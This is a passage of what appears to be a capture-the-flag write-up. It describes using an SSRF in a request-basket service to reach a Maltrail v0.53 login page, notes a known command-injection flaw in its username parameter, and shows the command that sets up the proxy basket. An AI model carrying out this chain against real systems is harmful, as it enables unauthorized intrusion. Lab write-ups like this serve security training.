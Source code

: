 ![mailtrail-ssrf](./images/mailtrail-ssrf.png "Mailtrail page via SSRF")

Curiously, port 8443 also leads to the same Maltrail site.

### Command Injection in Mailtrail

Looking for vulnerabilities in Mailtrail v0.53, I came across a [huntr bounty report](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/) indicating a vulnerability to OS Command Injection. The report highlights that the `/login` endpoint utilizes the `subprocess.check_output()` function with an unsanitized username parameter. This vulnerability allows for command injection using a semicolon `;`.

First, I create a basket to proxy Mailtrail's `/login` endpoint.

```bash
> http POST 10.129.14.169:55555/api/baskets/ssrf_80_login \
forward_url="http://127.0.0.1:80/login" \
proxy_response:=true \
insecure_tls:=false \
expand_path:=true \
capacity:=250 \
--follow
HTTP/1.1 201 Created
Content-Length: 56
Content-Type: application/json; charset=UTF-8
Date: Wed, 12 Jul 2023 09:51:30 GMT

{
    "token": "qoNJjntQv2qVxraW0ffJ_GWGycCh-YxyGiOE4umMQbiz"
}
```
